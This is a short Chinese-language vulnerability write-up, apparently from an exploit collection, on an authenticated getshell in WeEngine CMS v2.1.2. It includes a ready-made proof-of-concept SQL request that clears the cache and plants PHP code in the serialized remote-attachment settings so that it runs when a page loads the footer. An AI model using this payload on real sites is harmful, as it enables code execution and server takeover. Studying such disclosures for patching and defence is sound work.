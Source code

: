微擎cms v2.1.2 后台getshell
===========================

一、漏洞简介
------------

需要登录后台，并且有高权限。

二、漏洞影响
------------

v2.1.2

三、复现过程
------------

这个洞首先需要一个高权账号。问题出在模板解析这里(template.func.php)。

![](./resource/微擎cmsv2.1.2后台getshell/media/rId24.png)

attachurl\_remote来自于后台的设置,但是有一层htmlspecialchars

![](./resource/微擎cmsv2.1.2后台getshell/media/rId25.png)

![](./resource/微擎cmsv2.1.2后台getshell/media/rId26.png)

但是恰巧微擎支持SQL操作,虽然有些绿化版本的把SQL提交按钮和TOKEN值隐藏了,但是由于微擎一个页面做了多个CASE,所以可以数据表优化处找到TOKEN

![](./resource/微擎cmsv2.1.2后台getshell/media/rId27.png)

这样就可以愉快的修改SQL了,然后会发现微擎存在一个缓存表,同时remote这边的设置做了序列化(其实这个也可以利用),就可以构造如下

### POC

    sql=DELETE from ims_core_cache;update ims_core_settings  set `value` ='a:5:{s:4:"type";i:1;s:6:"alioss";a:4:{s:3:"key";s:0:"";s:6:"secret";s:0:"";s:6:"bucket";N;s:8:"internal";s:1:"0";}s:3:"ftp";a:9:{s:3:"ssl";i:1;s:4:"host";s:9:"127.0.0.1";s:4:"port";s:2:"21";s:8:"username";s:4:"root";s:8:"password";s:4:"root";s:4:"pasv";i:0;s:3:"dir";s:10:"127.0.0.11";s:3:"url";s:28:"127.0.0.1?<?php echo 123; ?>";s:8:"overtime";i:0;}s:5:"qiniu";a:4:{s:9:"accesskey";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:3:"url";s:0:"";}s:3:"cos";a:6:{s:5:"appid";s:0:"";s:8:"secretid";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:5:"local";s:0:"";s:3:"url";s:0:"";}}' where `key`="remote";&token=9def73ec&submit=submit

最后刷新缓存然后打开有加载footer的页面就能getshell了

![](./resource/微擎cmsv2.1.2后台getshell/media/rId29.png)

![](./resource/微擎cmsv2.1.2后台getshell/media/rId30.png)

![](./resource/微擎cmsv2.1.2后台getshell/media/rId31.png)
